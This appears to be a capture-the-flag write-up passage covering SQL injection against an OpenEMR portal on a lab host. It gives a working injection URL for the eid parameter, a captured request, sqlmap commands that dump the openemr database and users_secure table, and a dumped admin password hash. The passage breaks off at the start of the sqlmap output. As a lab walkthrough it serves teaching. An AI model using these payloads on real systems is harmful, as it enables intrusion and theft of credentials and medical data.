 > Both vulnerabilities are identified to work for versions under 5.0.1. However, I could not definitively identify the 
> version on the target. Based on the copyright year being *2018* on the pages' footers, and vulnerabilities being 
> reported on 2018, I reasonably assumed that the application could be well within the vulnerable versions.

## SQL Injection
As per the vulnerability report[^f3], first a request was made to the **register** page found at 
[http://hms.htb/portal/account/register.php](http://hms.htb/portal/account/register.php), through trial-and-error. From
there, the session was jumped to one of the vulnerable PHP modules, **add_edit_event_user.php** by browsing to 
[http://hms.htb/portal/add_edit_event_user.php?eid=%E2%80%8B1%20ANDEXTRACTVALUE(0,CONCAT(0x5c,VERSION()))](http://hms.htb/portal/add_edit_event_user.php?eid=%E2%80%8B1%20ANDEXTRACTVALUE(0,CONCAT(0x5c,VERSION()))).
The response received was an **SQL Query Error**, which all but confirmed that the parameter **eid** is injectable.

![SQL Query Error](/assets/img/posts/cache/sqlError.png)
The request to the vulnerable page 
[http://hms.htb/portal/add_edit_event_user.php?eid=1]([http://hms.htb/portal/add_edit_event_user.php?eid=1) was captured
with *Burp* and the same was copied onto a file, to be used with *sqlmap*. The captured response is shown below.
```html
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: OpenEMR=safch0q8g781dbcvjclidg3e6o; PHPSESSID=1k66gr4q88cq7sl2im7u94aqfs
Upgrade-Insecure-Requests: 1
```
**sqlmap** was then ran against this request to dump all the databases as 
`sqlmap -r $PWD/addEditEventUser.req --dbs --batch`, which identified two databases- **information_schema** and 
**openemr**. As we were interested on OpenEMR, the database *openemr* was dumped to list all the tables as
`sqlmap -r $PWD/addEditEventUser.req -D openemr --tables`. While the dump printed a long list of tables, the ones that 
seemed most important were **users** and **users_secure**. While the table *users* held no usable information, the table
*users_secure*, dumped as `sqlmap -r $PWD/addEditEventUser.req -D openemr -T users_secure --dump`, printed the username
and password has for the admin user as **openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.**.
<br> All dumps through sqlmap are shown on the section below.
```shell 
[_4m0r@manjaro Cache]$ sqlmap -r $PWD/addEditEventUser.req --dbs --batch
---SNIP---
available databases [2]:                                                                                                                                                        
```